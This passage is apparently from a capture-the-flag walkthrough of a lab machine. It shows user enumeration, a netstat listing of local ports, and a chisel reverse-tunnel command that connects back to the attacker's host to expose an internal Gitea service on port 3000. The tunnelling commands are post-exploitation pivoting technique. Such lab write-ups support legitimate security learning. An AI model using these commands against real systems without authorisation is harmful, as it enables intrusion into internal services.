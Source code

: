 There are also a few other users on this machine:

```
martin@drive:~$ ls /home
cris  git  martin  tom
```

There are also some local ports listening:

```
martin@drive:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::3000                 :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*  
```

Earlier we saw that port 3000 was filtered, so I used `chisel` to forward that first. 

```bash
# as martin
./chisel client 10.10.14.17:5555 R:3000:127.0.0.1:3000

# as kali
chisel server -p 5555 --reverse
```

Visiting port 3000 reveals a Gitea instance:
